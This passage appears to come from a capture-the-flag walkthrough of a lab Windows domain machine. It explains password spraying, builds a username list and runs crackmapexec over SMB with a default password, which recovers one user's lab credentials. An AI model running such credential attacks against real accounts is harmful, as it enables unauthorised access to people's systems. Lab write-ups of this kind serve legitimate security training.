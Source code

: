 After our failed attempts to log in as Marko, we’ll try a different approach. Considering that the default password assigned to new users on this AD is  **"Welcome123!"**, we’ll perform an attack known as **Password Spraying**.

**Password Spraying** is a technique where a single commonly used password is tested against multiple accounts. Unlike brute-force attacks, which target a single account with many password attempts, this method minimizes the risk of account lockouts by testing just one password across several accounts.

We start by creating our own wordlist. First, we copy all the usernames into a file named `raw.txt`. Then, using the following command, we will generate a list of usernames ready to use.
````bash
❯ grep -oP '(?<=user:\[)[^\]]+' raw.txt > users.txt
❯ cat users.txt
 File: users.txt
───────┼──────────────────────────────────────────────────────────────────────────────────
   1   │ Administrator
   2   │ Guest
   3   │ krbtgt
   4   │ DefaultAccount
   5   │ ryan
   6   │ marko
   7   │ sunita
   8   │ abigail
   9   │ marcus
  10   │ sally
  11   │ fred
  12   │ angela
  13   │ felicia
  14   │ gustavo
  15   │ ulf
  16   │ stevie
  17   │ claire
  18   │ paulo
  19   │ steve
  20   │ annette
  21   │ annika
  22   │ per
  23   │ claude
  24   │ melanie
  25   │ zach
  26   │ simon
  27   │ naoki
````

Next, using the following command with the **crackmapexec** tool, we initiate our **Password Spraying** attack.

````powershell
❯ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
````

## FOOTHOLD
---
During our previous enumeration with Nmap, we noticed that the WinRM port was open:
